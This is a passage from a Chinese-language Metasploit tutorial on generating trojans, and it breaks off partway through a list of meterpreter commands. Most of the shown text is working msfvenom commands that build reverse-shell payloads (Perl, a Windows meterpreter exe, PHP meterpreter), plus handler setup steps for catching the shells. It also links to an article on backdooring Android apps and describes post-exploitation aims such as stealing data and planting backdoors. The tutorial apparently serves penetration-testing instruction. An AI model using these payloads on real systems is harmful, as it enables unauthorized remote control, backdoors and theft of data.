 Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
关键参数：set exitonsessions false  防止有效荷载意外关闭（这个命令很有用，在渗透测试中，对方已经成功执行了你的木马，或者exploit攻击模块成功执行，会话已经建立，但是又突然意外关闭，这就是exitonsessions没有设置。）
3.use exploit/multi/handler
4.set PAYLOAD <Payload name>
5.set LHOST <LHOST value>
6.set LPORT <LPORT value>
7.set ExitOnSession false
8.exploit 

事例：
生成exe木马：
打开cmd，输入：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > 输出地址
这里我因为是演示，就输入本地ip：
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=6666 -f exe > exe.exe

进入msfconsole：
输入命令：
9.use exploit/multi/handler
10.set payload windows/meterpreter/reverse_tcp
11.set lhost 127.0.0.1
12.set lport 6666
13.run
然后点击exe运行：

成功拿到shell，下一步就是对目标机进行一些后续操作了。
生成php木马：（我自己搭建的php网站，因为在虚拟机，我的网关是192.168.106.1）
打开cmd输入：
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.106.1 LPORT=6666 -f raw > c:\\php.php

把生成的php.php放到我的网站根目录。

真实机进行数据访问：
进入msfconsole：
输入命令：
14.use exploit/multi/handler
15.set payload php/meterpreter/reverse_tcp
16.set lhost 192.168.106.1
17.set lport 6666
18.run
然后在真实机访问：




可以看出，连续访问两次会话都是意外关闭，这是没有设置exitonsession这个关键参数！！

生成apk（安卓app）木马：
原理同上，我不一一列举，可以参见下文：
手动安卓应用中注入msf后门
http://www.4hou.com/mobile/5794.html
简易木马的用途有限，就是自己有对方主机的掌控权，或者对方没有杀软，不然像这种级别的木马是百分之百会被查杀的！！！
### 3.5后渗透阶段
后渗透阶段即拿到目标主机反弹的shell后或者在对目标的渗透中离目标主机所在网络位置更进一步后所处的阶段。这个阶段很关键，涉及到对目标机密数据的窃取，和后门安置以及免杀等方面的操作，也是渗透测试中极为关键的一步，后文的进阶会有专门的专题讲解。在msf中，shell类型也就是payload的类型，Metasploit提供了很多payload，meterpreter算是高级payload了。既然是高级payload当然自有它的优势，meterpreter支持多平台，并且可扩展，纯内存的工作模式，而且支持流量加密，所以meterpreter是metasploit框架中必不可少的部分。
? – 帮助菜单
background – 将当前会话移动到背景
bgkill – 杀死一个背景 meterpreter 脚本
bglist – 提供所有正在运行的后台脚本的列表
bgrun – 作为一个后台线程运行脚本
channel – 显示活动频道
close – 关闭通道